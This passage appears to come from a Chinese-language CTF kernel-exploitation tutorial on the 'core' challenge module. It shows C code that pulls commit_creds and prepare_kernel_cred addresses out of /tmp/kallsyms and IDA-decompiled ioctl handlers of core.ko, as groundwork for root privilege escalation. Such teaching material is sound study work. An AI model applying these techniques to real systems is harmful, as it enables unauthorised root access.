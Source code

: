 ```c
unsigned long long commit_creds = 0, prepare_kernel_cred = 0;	// address of to key function
// This function is used to get the addresses of two key functions from /tmp/kallsyms
void get_function_address(){
	FILE* sym_table = fopen("/tmp/kallsyms", "r");	// including all address of kernel functions
	if(sym_table == NULL){
		printf("\033[31m\033[1m[x] Error: Cannot open file \"/tmp/kallsyms\"\n\033[0m");
		exit(1);
	}
	unsigned long long addr = 0;
	char type[0x10];
	char func_name[0x100];
	// when the reading raises error, the function fscanf will return a zero, so that we know the file comes to its end.
	while(fscanf(sym_table, "%llx%s%s", &addr, type, func_name)){
		if(commit_creds && prepare_kernel_cred)		// two addresses of key functions are all found, return directly.
			return;
		if(!strcmp(func_name, "commit_creds")){		// function "commit_creds" found
			commit_creds = addr;
			printf("\033[32m\033[1m[+] Note: Address of function \"commit_creds\" found: \033[0m%#llx\n", commit_creds);
		}else if(!strcmp(func_name, "prepare_kernel_cred")){	// function "prepare_kernel_cred" found
			prepare_kernel_cred = addr;
			printf("\033[32m\033[1m[+] Note: Address of function \"prepare_kernel_cred\" found: \033[0m%#llx\n", prepare_kernel_cred);
		}
	}
}
```

好，现在我们成功获取了这两个函数的地址，那么是不是直接将其作为函数指针调用就行了呢？当然不是，这可是内核的函数，不是用户态程序随随便便就能够调用的。不过好在我们有自定义的LKM可以作为跳板使用。

所有的内核函数都需要通过类似于接口的东西来调用，用户态无法直接调用。使用open函数打开内核进程后通过ioctl函数可以与内核进行通信，内核通过用户的ioctl函数获取用户提供的数据并进行处理，整体上看是一个黑盒。在core.ko中，我们通过IDA反编译可知，在内核装载时就创建了一个名为core的进程：

```c
__int64 init_module()
{
  core_proc = proc_create("core", 438LL, 0LL, &core_fops);
  printk("\x016core: created /proc/core entry\n");
  return 0LL;
}
```

我们在/proc文件夹中能够找到core这个文件，也就是由core.ko创建的内核进程。使用open函数获取到文件指针，将文件指针作为ioctl函数的参数之一即可指定与core进程进行交互。在core.ko中有core_ioctl函数记录了core这个进程提供的3个接口：

```c
__int64 __fastcall core_ioctl(__int64 a1, int a2, __int64 a3)
{
  switch ( a2 )
  {
    case 0x6677889B:
      core_read(a3);
      break;
    case 0x6677889C:
      printk("\x016core: %d\n", a3);
      off = a3;
      break;
    case 0x6677889A:
      printk("\x016core: called core_copy\n");
      core_copy_func(a3);
      break;
  }
  return 0LL;
```